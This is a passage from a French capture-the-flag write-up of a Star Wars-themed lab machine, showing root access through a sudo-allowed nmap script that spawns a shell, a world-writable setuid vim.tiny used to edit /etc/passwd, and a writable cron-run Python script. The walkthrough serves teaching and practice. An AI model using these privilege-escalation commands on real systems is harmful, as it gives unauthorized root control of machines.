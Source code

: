 Il y a un GTFObin pour Nmap :

```console
Darth@starwars:~$ echo 'os.execute("/bin/sh")' > yolo
Darth@starwars:~$ sudo /usr/bin/nmap --script=yolo
Starting Nmap 7.70 ( https://nmap.org ) at 2023-05-14 09:22 EDT
NSE: Warning: Loading 'yolo' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
# # Desktop  Documents  Downloads  flag.txt  Music      nmap-4.53.tar.bz2.2  Pictures  Public  Templates  Videos
#     .-.
                      |_:_|
                     /(_Y_)\
.                   ( \/M\/ )
 '.               _.'-/'-'\-'._
   ':           _/.--'[[[[]'--.\_
     ':        /_'  : |::"| :  '.\
       ':     //   ./ |oUU| \.'  :\
         ':  _:'..' \_|___|_/ :   :|
           ':.  .'  |_[___]_|  :.':\
            [::\ |  :  | |  :   ; : \
             '-'   \/'.| |.' \  .;.' |
             |\_    \  '-'   :       |
             |  \    \ .:    :   |   |
             |   \    | '.   :    \  |
             /       \   :. .;       |
            /     |   |  :__/     :  \\
           |  |   |    \:   | \   |   ||
          /    \  : :  |:   /  |__|   /|
      snd |     : : :_/_|  /'._\  '--|_\
          /___.-/_|-'   \  \
                         '-'

I hope you liked it Padawan :)
```

## Autres solutions

`Vi` est setuid root :

```console
Darth@starwars:~$ ls -al /usr/bin/vim.tiny
-rwsrwsrwx 1 root root 1200696 Jun 15  2019 /usr/bin/vim.tiny
```

On peut donc l'utiliser pour lire / éditer `/etc/passwd` ou `/etc/passwd` et passer root ou tout simplement obtenir le flag.

Il est possible aussi d'utiliser une entrée de crontab de l'utilisateur `Darth` :

```bash
* * * * * python /home/Darth/.secrets/evil.py
```

Le script est modifiable par les membres du groupe `anakin` :
